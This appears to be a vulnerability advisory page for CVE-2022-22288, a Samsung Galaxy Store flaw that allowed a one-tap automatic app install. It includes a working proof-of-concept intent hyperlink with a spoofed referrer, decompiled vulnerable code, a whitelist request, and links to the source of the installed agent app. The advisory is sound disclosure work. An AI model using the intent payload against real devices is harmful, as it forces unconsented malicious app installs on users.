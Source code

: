 ```yaml
---
layout: page
title: CVE-2022-22288 Details
permalink: /cves/cve-2022-22288
---
```


#### Original post: [https://labs.f-secure.com/advisories/samsung-galaxy-one-tap-install-malicious-application/](https://labs.f-secure.com/advisories/samsung-galaxy-one-tap-install-malicious-application/)

|    **Product**    | Galaxy Store prior to version 4.5.36.5 |
|    **Severity**   |                  High                  |
| **CVE Reference** |             CVE-2022-22288             |
|      **Type**     |      Automatic Application Install     |

## Description

F-Secure looked into exploiting the Samsung Galaxy S21 device for Austin Pwn2Own 2021. The Galaxy App Store application contained an issue with how it handled browsable intents. Additionally, it was possible to upload a malicious application to the Galaxy App Store and have Samsung host the application. If a user was convinced to tap an attacker controlled hyperlink, the uploaded malicious application would have been automatically installed onto the victim's device without consent. 

## The Exploit

The following hyperlink could have been used to abuse a browsable intent in the Samsung Galaxy App Store application. This link would install a malicious application that has hijacked the namespace of a whitelisted application on the Samsung App Store. An attacker can host this link from any web server:

```
<a id="yayidyay" rel="noreferrer" href="intent://apps.samsung.com/appquery/appDetail.as?
appId=live.hatch.russa&directInstall=true&installReferrer=yayreferreryay&directOpen=true&
simpleMode=true#Intent;action=android.intent.action.VIEW;package=com.sec.android.app.samsungapps;
scheme=http;S.android%2eintent%2eextra%2eREFERRER_NAME=http://com.sec.android.app.samsungapps;end">
YAYPOCYAY</a>
```

## Technical Details

The malicious application that would have been installed is Boops Boops, a re-skinned Drozer application. This issue occurs due to a bug in the Samsung Galaxy App Store (`com.sec.android.app.samsungapps`) class `com.sec.android.app.samsungapps.deeplink.DetailPageDeepLink` method `putDetailCommonExtra`:

```
public void putDetailCommonExtra(Context context) {
    ...
    if (isDirectInstall() && appManager.enableDDI(getSender(), getDetailID(), DeeplinkManager.getInstance().getInternalDeeplink())) {
        this.intent.putExtra(DeepLink.EXTRA_DEEPLINK_DIRECT_INSTALL, isDirectInstall());
        this.intent.putExtra("sender", getSender());
    }
```

* `isDirectInstall` is taken from the browsable intent query parameter `directInstall` and returns either True or False
* `getSender` is either the package name or the website URL that sent the browsable intent, which is retrieved from the intent string extra `sender` (this intent extra is added or modified in intents by the Android OS when an intent is sent from one application to another)
* `getDetailID` is taken from the browsable intent query parameter `appId`
* `enableDDI` code is below:

```
public boolean enableDDI(String sender, String appId, boolean isInternalDeeplink) {
    if (isDDITestMode()) {
        return true;
    }
    if ((!isGalaxyStore(sender) || !isInternalDeeplink) && !isWhiteListAppForOneClick(sender, appId)) {
        return false;
    }
    return true;
}
```

* `isGalaxyStore` returns true if the intent sender package name was `com.sec.android.app.samsungapps` or if the website that sent the browsable intent was `http://com.sec.android.app.samsungapps`
* `isWhiteListAppForOneClick` returns true if the target package name is in a Samsung controlled whitelist

The intent sender package name can be set by an attacker via the intent string extra `android.intent.extra.REFERRER_NAME=com.sec.android.app.samsungapps`. Without this intent string extra, `isGalaxyStore` would return false since the intent sender would have been a different value, such as the attacker's website URL.

The Samsung controlled whitelist is obtained by the Galaxy Store application via the following POST request:

```
POST /ods.as?reqId=2355 HTTP/1.1
Accept: image/webp
Content-Type: text/plain; charset=UTF-8
User-Agent: Dalvik/2.1.0 (Linux; U; Android 11; SM-G991B Build/RP1A.200720.012)
Host: us-odc.samsungapps.com
Connection: close
Accept-Encoding: gzip, deflate
Content-Length: 952
 
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<SamsungProtocol networkType="0" version2="3" lang="EN" openApiVersion="30" deviceModel="SM-G991B" deviceMakerName="samsung" 
deviceMakerType="0" mcc="310" mnc="00" csc="XME" odcVersion="4.5.30.5" scVersion="1000000" 
storeFilter="themeDeviceModel=SM-G991B_TM||OTFVersion=11010001||gearDeviceModel=SM-G991B_SM-R800||gOSVersion=4.0.0"
supportFeature="ARW||AOD" version="6.8" filter="1" odcType="01" cacheVersion="1" systemId="<redacted>" sessionId="<redacted>" 
logId="<redacted>" deviceFeature="locale=en_US||abi32=armeabi-v7a:armeabi||abi64=arm64-v8a" userMode="0">
<request name="whiteAppInfo" id="2355" numParam="4" transactionId="<redacted>"><param name="accountCountry">
USA</param><param name="guestDownloadInfo">Y</param><param name="accountMcc">310</param><param name="requestTypeCode">0</param>
</request></SamsungProtocol>
```

The whitelist is found in the response parameter popupDownloadAppList:

```
...
<value name="popupDownloadAppList">mobi.abcmouse.samsung||com.audible.application.samsung||com.booking.forsamsung||com.cnn.mobile.android.phone|
|com.golfnow.android.samsung.teetimes||com.scribd.app.samsung||com.shazam.android||com.shutterfly.samsung||com.skimble.workouts||me.swiftgift.swiftgift.samsung|
|com.weather.samsung||com.touchofmodern.samsung||com.tubitv.samsung||com.ua.shop.samsung||com.yelp.android||com.aaptiv.android.samsung|
|com.lifesum.madeforsamsung||com.getliner.Liner||com.vsco.cam.samsung||com.rosettastone.madeforsamsung.courseplayer||com.aita||com.degoo.android.samsung|
|com.adobe.reader||com.samsung.m4sscreen||com.adobe.premiererush.videoeditor.samsung||live.hatch.russa||jp.gocro.smartnews.android|
|com.getsomeheadspace.android||com.viewbug.viewbug||com.postmates.android||com.getaround.android</value>
...
```

It was found that the package name `live.hatch.russa` was on the Samsung white list, but that package did not exist on the Samsung App Store itself. F-Secure deployed their custom re-skinned Drozer application called "Boops Boops" to the Samsung App Store with the package name `live.hatch.russa`:

![yay](/assets/my_cves/cve-2022-22288_1.png)

Source code for the Boops Boops application can be found here: [https://github.com/Yogehi/boops-boops-android-agent](https://github.com/Yogehi/boops-boops-android-agent) or 

Source code for the Boops Boops Docker Container which can be used to interact with Boops Boops can be found here: [https://github.com/Yogehi/boops-boops-docker-container](https://github.com/Yogehi/boops-boops-docker-container)


## Remedial Action

Samsung has released the Galaxy Store version 4.5.36.5 which addresses this issue. Additionally, F-Secure has attempted to re-upload Boops Boops with the package name `live.hatch.russa` several times to the Galaxy Store, and it now gets taken down due to a copyright warning.

![yay](/assets/my_cves/cve-2022-22288_2.png)

Users should still update their Galaxy Store application to the latest version available.

## Credits

This issue was discovered by Ken Gannon.

## Timeline

|    **Date**    | **Summary** |
|   01/11/2021   | Issue disclosed to Samsung Mobile Security |
|   01/11/2021   | Issue assigned to a Samsung Security Analyst |
|   01/12/2021   | Samsung confirms the vulnerability and rates it as a critical risk issue |
|   03/01/2022   | Patch released, Samsung initiates process for bug bounty reward |
|   04/01/2022   | CVE Assigned |
|   04/01/2022   | Advisory Published |